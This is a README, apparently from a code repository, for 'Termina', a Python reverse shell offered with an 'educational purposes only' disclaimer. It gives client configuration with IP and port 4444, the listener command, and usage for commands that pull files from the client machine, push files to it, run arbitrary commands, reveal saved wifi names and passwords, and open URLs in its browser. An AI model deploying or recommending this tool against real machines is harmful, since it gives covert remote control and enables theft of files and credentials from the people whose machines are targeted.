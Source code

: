 # **Termina**
### _A simple remote shell/reverse shell written in python_
# __
  ### ~ Hold your horses Adventurer, You have made this far so
  ### Pease consider this tool is created for educational purposes only.
  ### And not for those script kiddies who doesent know how to code or use metaxploit.
  ### If you doesent know the meaning of the sentence "educational purposes only" you are not welcome.
  ### Please don't harm anyone using this tool. (Script kiddies  use free tools to flex)
  ### If you are not a scriptkiddy or person who doesent know the meaning of "educational purposes only"
  ### You are free to use this tool. ~
# __
# How to use:
 ## Client:
  > ### Edit Line 5 and 6 to your ip or server ip and port
```python
import struct,socket,subprocess,os,platform,webbrowser as browser
# server_config
IP = "localhost" # Your server IP, default: localhost
port = 4444  # #Your server Port, default: 4444
```
 ## Server:
  > ### In command prompt enter cmmand
  ```bash
  python TerminaListner.py <ip address> <port>
  ```
  > ### Wait for the client connection
  > ### When the client is connected you can run any built in terminal commands or special sommands provided by the tool
   #### Eg-
   ```bash
     dir
     ls
     ipconfig
     ifconkig
     :kill
     :download
   ```
     
#Commands:
  > ### :help - ``` Display help command ```
  > ### :download - ``` Download file from client machine ```
   #### usage -
  ```bash
    :download <filename>.<extention>
  ```
  > ### :upload - ``` Upload file to client machine ```
   #### usage -
  ```bash
  :upload <filename>.<extention>
  ```
  > ### :kill - ``` Kill the connection with client machine ```
  > ### :exec - ```Run external command ```
   #### usage-
  ```bash
   :exec <command you wan to run in your mashine>
  ```
  > ### :check - ```Check if client machine is connected to internet```
  > ### :wifi - ```Show Client machine wifi info [names,passwod,etc]```
  > ### :browse - ```Open an website on client machine browser```
   #### usage-
  ```bash
  :browse <url>
  ```
  > ### pwd - ```Print working folder```
